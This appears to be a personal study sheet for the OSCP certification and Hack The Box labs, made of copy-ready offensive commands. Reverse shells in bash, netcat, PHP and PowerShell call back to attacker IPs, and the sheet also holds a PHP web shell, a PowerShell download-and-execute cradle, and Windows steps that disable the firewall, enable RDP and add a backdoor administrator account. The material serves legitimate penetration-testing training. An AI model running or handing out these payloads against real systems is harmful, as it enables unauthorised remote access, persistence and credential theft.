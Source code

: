Study Notes 📝
OSCP 2024

HTB OpenVPN NMCLI config to allow internet:
https://www.reddit.com/r/hackthebox/comments/13m1tb8/strange_error_with_connecting_vpn/#:~:text=Problem%20is%2C%20when%20you%20do,%2C%20StartingPoint%2C%20Academy%2C%20etc.



## **Quick TOOLS**
#tools


**Shell Upgrade**

`script /dev/null -c bash`


Increase shell functionality after initial foothold
```
#In Victim Terminal
export TERM=xterm
export SHELL=/bin/bash

python -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z (This will background the process)

#In kalki terminal
#This enables tab completion, better copy/paste, and arrow functionality
stty raw -echo; fg
```
![[Pasted image 20240724143853.png]]
![[Pasted image 20240724144126.png]]




**BASH Shell**
[[1. BUSQUEDA]]
`echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.12 9001 >/tmp/f" > /tmp/full-checkup.sh`


**FIND**
SUID
`find / -perm -u=s -type f 2>/dev/null`

```
find / \( -iname "user.txt" -o -iname "root.txt" \) -print -exec cat {} + 2>/dev/null
```
***

**PHP Rev Shells**

PHP 
```
<?php 
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.71/5555 0>&1'");
?>
```


PHP web shell which uses the system() function and a cmd URL parameter to execute system commands

```
<?php echo system($_REQUEST['cmd']);?>`
```
SEE `blob:https://app.hackthebox.com/f8d7de5c-517e-4de0-a609-0a46cb7380a8` for specifics in using with Burp and converting GET to POST Request


https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
***

**Python**
==`python -c 'import pty; pty.spawn("/bin/bash")'`==
==`python3 -m http.server`==




***

**NC** 
Reverse Shell
==`nc <Target_IP_Listener> <Target_Port> -e /bin/bash`==

- If `-e` switch is not an option:
https://www.grobinson.me/reverse-shells-even-without-nc-on-linux/

`bash &>/dev/tcp/DEST_IP/DEST_PORT <&1`
`bash -c "bash &>/dev/tcp/DEST_IP/DEST_PORT <&1"`


Windows NC
==`wget https://github.com/rahuldottech/netcat-for-windows/releases/download/1.12/nc64.exe`==

```
nc -e cmd.exe [attacker_IP] [attackeer_port]
```

Windows Hacking Pack 
https://github.com/51x/WHP



***
**NISHANG**
```
/usr/share/nishang/Shells/
```

POWERSHELL
```
echo IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.13:8080/Invoke-PowerShellTcp.ps1') | powershell -noprofile -
```

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.19",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

***

**Base64 Encoded Shell**
[[1. STARTING POINT#UNIFIED]]
==`echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64`==






**EVIL-WINRM**

Usage:[[1. STARTING POINT#Evil-WinRM]]
- Default on Kali
- WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

- This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So we can say that it could be used in a post-exploitation hacking/pentesting phase.
- https://github.com/Hackplayers/evil-winrm




**REPSONDER**

Usage:[[1. STARTING POINT#**RESPONDER**]]
- Used to exploit NTLMv2 authentication protocol with malicious SMB server via RFI against a Windows web-server hosting XAMPP

![[Screenshot 2024-05-10 at 9.36.08 PM.png]]




**GOBUSTER**
Usage:[[1. STARTING POINT#**Gobuster**]]

- Web SUB/Directory enumeration

==`gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain




**AWS CLI**
Usage:[[1. STARTING POINT#**Install awscli**]]

- Interact with S3 buckets discovered in subdomain enumeration




**RsaCtfTool**
https://github.com/RsaCtfTool/RsaCtfTool
```
usage: RsaCtfTool.py [-h] [--publickey PUBLICKEY] [--output OUTPUT] [--timeout TIMEOUT] [--createpub] [--dumpkey] [--ext] [--decryptfile DECRYPTFILE] [--decrypt DECRYPT]...
```







***
***

## **WORDLISTS**

Windows File Inclusion - Common files
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt




***
***

## STEAL NTLM 

https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds

https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/


***
***

**WEB Information Disclosure && Enumeration**

WhatWeb
`whatweb http://[target_url]`

DirSearch
```
dirsearch -u https://[target] -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 20 --random-agent -o [output_file] --format=simple
```


**VHOST**
```
sudo dig @10.10.10.29 bank.htb axfr
```


**Feroxbuster**
```
 cat /tmp/bank.txt | sudo feroxbuster --auto-tune --extract-links --random-agent --stdin --output /tmp/bank.ferox --threads 100 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

**WPSCAN**
```
sudo wpscan --url http://tenten.htb --random-user-agent --max-threads 10 --enumerate
```
***
**DNS**

**AQUATONE**
Tool for Domain Flyovers

Aquatone is a tool for visual inspection of websites across a large amount of hosts and is convenient for quickly gaining an overview of HTTP-based attack surface.
https://github.com/michenriksen/aquatone

***
**WINDOWS**

`smbserver.py`
```
sudo smbserver.py a /usr/share/windows-binaries/
```



`rlwrap` - for stable shell 
```
rlwrap nc -lvnp [port]
```


**Enable RDP**
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```


**Disable Firewall**
```
netsh advfirewall set allprofiles state off
```

**ADD ACCOUNT**
```
net user carlos hack3d#! /add
```


**ADD USER TO ADMIN GROUP**
```
net localgroup administrators carlos /add
```


